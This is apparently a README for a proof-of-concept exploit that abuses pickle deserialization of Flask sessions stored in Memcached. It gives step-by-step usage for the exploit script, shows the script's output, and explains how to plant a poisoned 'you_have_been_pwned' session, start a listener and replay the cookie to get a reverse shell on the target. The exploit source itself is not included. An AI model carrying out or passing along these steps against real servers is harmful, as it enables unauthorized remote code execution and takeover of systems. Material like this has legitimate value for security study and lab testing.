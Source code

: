 # Flask Memcached RCE
The flask application stored the session value in Memcached using python pickle. It is possible to send a malicious payload to the Memcached daemon using the pickle serialization. 

---
## POC
There is a requiremnt for a python pymemcache modules.
```bash
pip install -r requirements.txt
```
Replace the local and target address and the port number running the memcached service (Default: 11211).

Run the python exploit:
```bash
$python3 flask_mem_pickle.py 
[*]Payload Sent!
[*]NOW RUN 'memcdump --servers= 192.168.235.59' And look for new pwned session.
[*]Then just log into the web server with pwned session and get the shell back.
```
Confirm if the malicious payload is sent:
```bash
$memcdump --servers=192.168.235.59
session:d32d744c-5294-438c-bf20-90885e4fcf78
session:you_have_been_pwned
```
If you see the pwned session the maliciuos payload is sent. To trigger the reverse shell, you need to start a listern and then login in the Flask App and replace the cookie session with ```you_have_been_pwned``` and this will trigger the payload and hopefully you will get the shell back.

